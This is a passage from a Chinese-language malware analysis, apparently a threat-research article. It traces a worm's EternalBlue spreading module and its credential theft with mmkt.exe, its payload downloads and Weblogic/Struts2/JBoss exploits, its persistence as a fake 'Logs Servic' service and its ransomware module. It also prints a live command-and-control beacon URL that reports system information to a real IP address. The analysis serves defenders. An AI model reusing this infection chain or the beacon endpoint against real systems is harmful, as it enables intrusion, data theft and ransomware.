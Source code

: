 当释放完永恒之蓝攻击模块后，将会先启动 mmkt.exe获取到windows账户密码，用于新起线程进行攻击工作，其中线程一启动永恒之蓝攻击模块, 如果是64位系统，则使用down64.dll 作为payload 来使用。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012899bf73d24573c5.png)

该payload会下载fast.exe。

[![](https://p0.ssl.qhimg.com/t019fa885a5ecfb0e7d.png)](https://p0.ssl.qhimg.com/t019fa885a5ecfb0e7d.png)

线程二进行web服务的攻击。

[![](https://p4.ssl.qhimg.com/t01ac003cc1e12048dc.png)](https://p4.ssl.qhimg.com/t01ac003cc1e12048dc.png)

以下是conn.exe使用到的Weblogic ,Struts2, JBoss等漏洞攻击 payload，详细的漏洞攻击情况已在上面漏洞版面讲述，就不再赘述了。

[![](https://p3.ssl.qhimg.com/t01d7de8a855bda8eaf.png)](https://p3.ssl.qhimg.com/t01d7de8a855bda8eaf.png)



## Srv模块分析

首先该模块会去读一下版本配置文件，检测一遍是否要更新。当前分析时最新版本为1.13。

[![](https://p3.ssl.qhimg.com/t0192d431fa80785b94.png)](https://p3.ssl.qhimg.com/t0192d431fa80785b94.png)

接着下载cpt.exe 和mn32.exe到C:\Program Files\Common Files\System目录下并执行。

[![](https://p3.ssl.qhimg.com/t017f9a5048c9b28d97.png)](https://p3.ssl.qhimg.com/t017f9a5048c9b28d97.png)

执行完上述逻辑后，然后判断参数一，是否等于1或者2，如果参数一等于1则调用StartServiceCtrlDispatcherA函数启动服务的回调函数, 如果参数一等于2，再判断参数二的参数是install还是removesrv，分别为安装服务和卸载服务的功能。

[![](https://p5.ssl.qhimg.com/t01cbf6086c2ebfbae5.png)](https://p5.ssl.qhimg.com/t01cbf6086c2ebfbae5.png)

创建的服务名称叫作Logs Servic指向srv本身。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01aa468a42e870ecda.png)

最后获取系统信息后拼接参数向服务端发送系统配置等信息。

http://111.90.158.225/token.php?sys=&amp;c_type=&amp;dis_type&amp;num=&amp;ver=

[![](https://p0.ssl.qhimg.com/t01e10852e78fd857c7.png)](https://p0.ssl.qhimg.com/t01e10852e78fd857c7.png)



## Cpt模块分析

Cpt为windows版本的勒索加密者逻辑和linux的一样，首先它尝试关闭一些数据库服务及进程以解除文件占用，方便对文件进行加密。
